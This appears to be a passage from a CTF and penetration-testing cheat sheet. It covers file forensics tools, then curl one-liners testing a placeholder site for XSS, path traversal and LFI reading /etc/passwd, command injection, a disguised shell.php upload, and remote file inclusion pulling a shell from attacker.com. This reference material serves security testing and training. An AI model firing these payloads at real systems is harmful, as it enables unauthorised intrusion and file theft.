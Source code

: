 ### Check Audio Files with Sonic Visualiser
Analyze audio files for hidden data (manual tool).
```
sonic-visualiser suspicious_audio.wav
```

### Use Foremost to Extract Embedded Files
Recover files based on their headers, footers, and internal data structures.
```bash
foremost suspicious_image.jpg -o extracted_files
```

### Use Strings to Find Embedded Text
Extract printable strings from a file, useful for finding flags or clues.
```bash
strings suspicious_image.jpg | grep -i "flag"
```

# Web Application Testing (Manual Checks)

### Basic XSS Test
Test for Cross-Site Scripting by injecting a simple script.
```bash
curl -s "http://target.com/page.php?param=<script>alert(1)</script>"
```

### Directory Traversal Test
Test for Directory Traversal to access sensitive files.
```bash
curl -s "http://target.com/page.php?file=../../../etc/passwd"
```

### LFI Check for PHP Wrappers
Test for Local File Inclusion using PHP filter wrappers.
```bash
curl -s "http://target.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd"
```

### RFI Test
Test for Remote File Inclusion by including a remote file.
```bash
curl -s "http://target.com/page.php?file=http://attacker.com/shell.txt"
```

### Command Injection Test
Test for OS Command Injection by appending system commands.
```bash
curl -s "http://target.com/page.php?cmd=id;ls"
```

### Test File Upload Bypass with Curl
Attempt to bypass file upload restrictions by manipulating filename/content-type.
```bash
curl -s -F "file=@shell.php;filename=shell.jpg" http://target.com/upload.php
```
